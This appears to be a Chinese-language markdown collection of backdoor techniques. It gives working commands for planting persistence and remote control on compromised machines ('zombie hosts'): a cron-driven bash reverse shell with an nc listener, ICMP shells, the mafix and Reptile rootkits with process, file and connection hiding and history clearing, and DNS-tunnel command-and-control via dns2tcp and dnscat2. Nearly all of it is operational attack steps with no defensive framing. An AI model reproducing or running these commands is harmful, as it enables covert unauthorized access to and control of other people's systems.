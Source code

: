 # backdoor工具收藏

****************************************************
1、 Bash TCP反弹后门<br>
bash_tcp_backdoor.sh<br>
vim /etc/crontab<br>
*/1 * * * * root /root/ok.sh<br>
或<br>
crontab -e<br>
*/1 * * * *  /root/ok.sh<br>
systemctl restart crond<br>
控制机执行<br>
nc -l -v -p 5353

****************************************************
2、icmp shell无端口后门<br>
原文：https://www.cnblogs.com/bravexz/p/9761411.html<br>
wget http://prdownloads.sourceforge.net/icmpshell/ish-v0.2.tar.gz<br>
tar -zxvf ish-v0.2.tar.gz<br>
cd ISHELL-v0.2/<br>
make && make linux<br>
make linux<br>
肉鸡192.168.1.28上执行命令：<br>
./ishd -i 555 -t 0 -p 1099 &<br>
控制机执行：<br>
./ish -i 555 -t 0 -p 1099 192.168.1.28<br>
命令解释：<br>
-i 指定ID，标识自己的请求<br>
-t 指定icmp数据的类型 <br>
-p 指定 icmp 数据 包大小 ,一般 情况下 1024 即可<br>

****************************************************
3、icmpsh后门<br>
pip install impacket<br>
git clone https://github.com/inquisb/icmpsh.git<br>
cd icmpsh<br>
./run.sh<br>
控制端运行：<br>
python icmpsh_m.py 192.168.1.28 192.168.1.41<br>
#./icmpsh-m.py <控制机IP> <肉鸡IP><br>
sz icmpsh.exe到本地<br>
C:\>icmpsh.exe -t 192.168.1.28 -d 600 -b 20 -s 256   //指向控制机<br>

https://blog.csdn.net/Fly_hps/article/details/80627628<br>
https://www.jianshu.com/p/3bdf8c5557e8<br>
https://www.cnblogs.com/bravexz/p/9761411.html<br>
https://github.com/sevck/icmp_Tunnel<br>
https://blog.csdn.net/qq_33020901/article/details/81773737<br>

****************************************************
4、mafix.tar.gz  rootkit后门<br>
Mafix是一款常用的轻量应用级别Rootkits，是通过伪造ssh协议漏洞实现让攻击者远程登陆的，特点是配置简单并可以自定义验证密码和端口号。
kali 下测试通过，centos7不兼容<br>
wget https://github.com/synjkc/backdoor/blob/master/mafix.tar.gz<br>
tar -zxvf mafix.tar.gz<br>
cd mafix<br>
./root xiaoma 9999<br>

安装rootkit 命令：./root 密码  端口   (如: ./root xiaoma 9999  接着用ssh连接它的9999端口，用户名是root，密码为xiaoma)
安装完成后会自动删除目录，为了隐蔽，用 history -c 清除下命令就行了<br>
控制端执行： ssh ip -p9999

*******************************************************************<br>
5、Reptile Linux rootkit后门<br>
肉鸡上安装：<br>
git clone https://github.com/f0rb1dd3n/Reptile.git<br>
cd Reptile<br>
./setup.sh install<br>
卸载<br>
./setup.sh remove<br>
隐藏进程: /reptile/reptile_cmd hide <pid> <br>
显示进程: /reptile/reptile_cmd show <pid><br>
隐藏udp: /reptile/reptile_cmd udp <IP> <port> hide <br>
显示udp: /reptile/reptile_cmd udp <IP> <port> show<br>
隐藏tcp: /reptile/reptile_cmd tcp <IP> <port> hide <br>
显示tcp: /reptile/reptile_cmd tcp <IP> <port> show<br>
还可以隐藏文件 所有包含 reptile 这个字符的文件会被隐藏，这个字符可以在配置文件中修改。<br><br>

Kali上安装控制端<br>
./setup.sh client<br>
项目地址：https://github.com/f0rb1dd3n/Reptile<br>
https://carlstar.club/2019/04/09/rep/#on-vulnerable-ubuntu-192-168-5-148<br>
https://3hack.com/tools/85.html<br>
*******************************************************************<br>
6、服务端Kali 192.168.1.28,自带dns2tcp工具<br>
设置A记录 dns28.xxx.com到Kail<br>
服务端设置<br>
cat /etc/dns2tcpd.conf<br>
listen = 0.0.0.0<br>
port = 53<br>
user = nobody<br>
chroot = /tmp<br>
domain = dns28.xxx.com<br>
resources = c2:127.0.0.1:5353 , ssh:127.0.0.1:22 , smtp:127.0.0.1:25<br>
服务端运行：root@kali:~# dns2tcpd -f /etc/dns2tcpd.conf -F -d 1<br>
https://github.com/synjkc/backdoor/blob/master/dns2tcpc_client_win.zip<br>
客户端运行：<br>
dns2tcpc -r ssh -z dns28.xxx.com 192.168.1.28 -l 8888 -d 2<br>
本地win10运行[c:\~]$ ssh 127.0.0.1 2222，即可连接到Kali<br>
参考https://blog.csdn.net/gsls200808/article/details/50318947<br>
https://www.freebuf.com/articles/network/208242.html<br>
https://www.cnblogs.com/bonelee/p/7927706.html<br>
*******************************************************************<br>
7、a 安装 
服务端 
debian9安装ruby环境: apt-get install ruby-full 
git clone https://github.com/iagox86/dnscat2.git 
cd dnscat2 
cd server 
gem install bundler 
bundle install 
客户端 
git clone https://github.com/iagox86/dnscat2.git 
cd dnscat2/client/ 
make

b 使用 
在服务端机器上，执行： 
root@kali:/opt/dnscat2/server# 
ruby dnscat2.rb //可以不带任何参数执行 
ruby dnscat2.rb –dns “domain=dns.hxsec.com,host=192.168.1.28,port=5353” –no-cache 
在客户端机器上，执行： 
[root@centos7vm client]# 
./dnscat –dns server=192.168.1.28,port=5353 –secret=7296f13b2295b56a9e451ac3c418c96f

c 进一步操作 
可以用”sessions”命令来查看已经创建的会话 
进入建立的session并与其交互： 
dnscat2> session -i 1

输入”shell”命令即可，它就会开启一个新的窗口，进入到目标系统的shell中 
command (centos7vm) 1> shell

与新的终端中打开的shell会话中进行交互，输入下面这两条命令： 
command (centos7vm) 1> windows 
command (centos7vm) 1> session -i 2 
sh (centos7vm) 2> uname -a 
sh (centos7vm) 2> Linux centos7vm

建立DNS隧道转发 
dnscat2> session -i 1 
command (centos7vm) 1> listen 127.0.0.1:1188 192.168.1.28:10022

Usage: listen [:] : //kali地址及端口 肉鸡IP及端口

Kali上用SSH登录肉鸡，在Kali上连接本地1188，将转发至肉鸡10022端口 
root@kali:~#ssh root@127.0.0.1 -p 1188 
参考：https://blog.csdn.net/localhost01/article/details/86591685 
https://blog.csdn.net/ddr12231/article/details/102306989 
https://blog.csdn.net/weixin_30389003/article/details/94863001 
https://www.4hou.com/tools/17226.html
